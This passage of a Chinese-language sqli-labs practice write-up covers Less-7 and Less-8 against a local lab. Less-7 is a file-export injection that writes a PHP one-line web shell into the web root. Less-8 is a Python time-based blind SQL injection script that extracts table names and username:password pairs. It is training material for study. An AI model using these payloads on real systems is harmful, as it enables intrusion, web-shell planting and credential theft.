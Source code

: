 ## Less-7（文件导出

输入1\可知闭合方式是'))

![image-20240323122312456](C:\Users\86158\AppData\Roaming\Typora\typora-user-images\image-20240323122312456.png)

用上面的脚本也能实现，但是这关提示我们用文件导出的方式进行注入。

导入一句话木马：http://127.0.0.1:1235/sqli-labs/Less-7/?id=-1')) union select 1,2,'<?php @eval($_POST["troy3e"]);?>' into outfile "E:\\\phpstudy_pro\\\WWW\\\sqli-labs\\\Less-7\\\test.php" --+

## Less-8（时间盲注

```python
import time

import requests

url = 'http://127.0.0.1:80/sqli-labs/Less-8/?id='
flag = ''
for i in range(1,1000):
    low = 32
    high = 126
    while (low < high):
        #print(mid)
        #爆库
        payload1 = "1'and if(ascii(substr((select(database())),{0},1))={1},sleep(1),null)--+".format(i,low)
        #爆表
        payload2 = "1'and if(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema='security')),{0},1))={1},sleep(1),null)--+".format(i,low)
        # 爆列
        payload3 = "1'and if(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='users')),{0},1))={1},sleep(1),null)--+".format(i, low)
        # 爆数据
        payload4 = "1'and if(ascii(substr((select(group_concat(username,':',password))from(security.users)),{0},1))={1},sleep(1),null)--+".format(i, low)
        newurl = url + payload4
        print(newurl)
        start = time.time()
        r = requests.get(url=newurl)
        end = time.time()
        if(end - start > 0.5):
            flag += chr(low)
            break
        else:
            low += 1
    print(flag)
print(flag)
```

## Less-9
